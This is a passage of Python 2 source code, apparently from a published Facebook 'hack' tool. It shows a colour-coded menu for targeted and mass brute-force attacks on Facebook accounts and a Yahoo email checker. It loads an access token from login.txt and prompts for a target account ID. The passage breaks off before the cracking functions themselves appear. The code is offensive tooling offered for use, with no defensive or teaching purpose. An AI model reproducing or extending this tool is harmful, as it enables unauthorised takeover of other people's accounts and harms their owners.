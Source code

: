 		print"\033[1;91m[✖] No connection"
		keluar()
    
##### MENU HACK #####
def menu_hack():
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('reset')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m Mini Hack Facebook(\033[1;92mTarget\033[1;97m)"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Multi Bruteforce Facebook"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Super Multi Bruteforce Facebook"
	print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m BruteForce(\033[1;92mTarget\033[1;97m)"
	print "\033[1;97m║--\033[1;91m> \033[1;92m5.\033[1;97m Yahoo Checker"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	hack_pilih()
#----pilih
def hack_pilih():
	hack = raw_input("\033[1;97m╚═\033[1;91m>>> \033[1;97m")
	if hack=="":
		print "\033[1;91m[!] Wrong input"
		hack_pilih()
	elif hack =="1":
		mini()
	elif hack =="2":
		crack()
		hasil()
	elif hack =="3":
		super()
	elif hack =="4":
		brute()
	elif hack =="5":
		menu_yahoo()
	elif hack =="0":
		menu()
	else:
		print "\033[1;91m[!] Wrong input"
		hack_pilih()
		
##### MINI HF #####
def mini():
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('reset')
	print logo
	print "\033[1;97m[\033[1;91mINFO\033[1;97m] \033[1;91mThe target account must be friends\n       with your account first!"
	print 42*"\033[1;97m═"
	try:
		id = raw_input("\033[1;91m[+] \033[1;92mTarget ID \033[1;91m:\033[1;97m ")